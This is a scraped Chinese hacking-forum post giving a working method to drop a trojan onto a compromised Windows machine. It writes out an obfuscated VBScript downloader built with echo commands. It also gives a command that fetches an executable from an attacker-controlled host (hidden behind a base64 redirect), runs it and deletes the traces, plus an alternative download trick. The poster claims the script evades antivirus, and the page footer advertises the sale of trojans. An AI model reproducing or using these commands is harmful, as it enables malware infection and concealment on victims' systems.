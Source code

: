 2.html下载
这儿是使用肉鸡system32目录下的wscript.exe来执行指定的vbs脚本访问我们放置木马的http服务器。
假设木马地址为:[http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL2Z0cHh4LjMzMjIub3JnL21tLmV4ZQ==](http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL2Z0cHh4LjMzMjIub3JnL21tLmV4ZQ==) mm.exe
通过命令行(无需任何修改，我已做免杀，除非被杀了，可以修改脚本)
＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝
@echo with wscript:if .arguments.count^<2-0+0-0+0 then .quit:end if > thisis.vbs
@echo set aso=.createobject("adodb.stream"):set thisisweb=createobject("mi"+"cr"+"o"+"s"+"o"+"ft.x"+"ml"+"h"+"ttp") >> thisis.vbs
@echo thisisweb.open "g"+"e"+"t",.arguments(0),0:thisisweb.send:if thisisweb.status^>200 then .echo "E"+"r"+"r"+"o"+"r"+":"+thisisweb.status:.quit>> thisis.vbs
@echo aso.type=1-0+0-0+0:aso.open:aso.write thisisweb.responsebody:aso.savetofile .arguments(1-0+0-0+0),2-0+0-0+0:end with >> thisis.vbs
Type thisis.vbs
＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝
下一步是执行木马并删除记录：
也就是一句话(三个语句):
cscript thisis.vbs [http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL2Z0cHh4LjMzMjIub3JnL21tLmV4ZQ==](http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL2Z0cHh4LjMzMjIub3JnL21tLmV4ZQ==) mm.exe & del thisis.vbs & del mm.exe
或者简单的方法是(会弹出网页!):
START its:[http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL2Z0cHh4LjMzMjIub3JnL21tLmV4ZQ==](http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL2Z0cHh4LjMzMjIub3JnL21tLmV4ZQ==)
下载后，
DIR /A /S "C:\Documents and Settings\Default User\Local Settings\Temporary Internet Files\Content.IE5\*.EXE"
列出路径后，执行。
       这儿帐号Default User也可能是当前用户
[收藏](http://bbs.hackerxfiles.net/logging.php?action=login) [分享](http://bbs.hackerxfiles.net/misc.php?action=emailfriend&tid=381849) [评分](http://bbs.hackerxfiles.net/logging.php?action=login)
[我的baidu空间](http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL2hpLmJhaWR1LmNvbS9oeHM1MjAxMzE0)

[承接免杀木马业务_出售各类免杀木马](http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL3NiYXBzcGwuMzMyMi5vcmcvb2trLmh0bWw=) *[回复](http://bbs.hackerxfiles.net/post.php?action=reply&fid=50&tid=381849&reppost=1407413&extra=page%3D1&page=1) [引用](http://bbs.hackerxfiles.net/post.php?action=reply&fid=50&tid=381849&repquote=1407413&extra=page%3D1&page=1)*

[订阅](http://bbs.hackerxfiles.net/my.php?item=subscriptions&subadd=381849) [TOP]()

[561726469](http://bbs.hackerxfiles.net/space.php?uid=234482)

* [发短消息](http://bbs.hackerxfiles.net/pm.php?action=new&uid=234482 "发短消息")
* [加为好友](http://bbs.hackerxfiles.net/my.php?item=buddylist&newbuddyid=234482&buddysubmit=yes "加为好友")

[561726469](http://bbs.hackerxfiles.net/space-uid-234482.html) *当前离线*
[![查看个人网站]()](http://www.yangfangyi.qyun.net/ "查看个人网站")[![查看详细资料]()](http://bbs.hackerxfiles.net/space-uid-234482.html "查看详细资料")
[![]()](http://bbs.hackerxfiles.net/space-uid-234482.html)

*一年级*

![Rank: 1]()
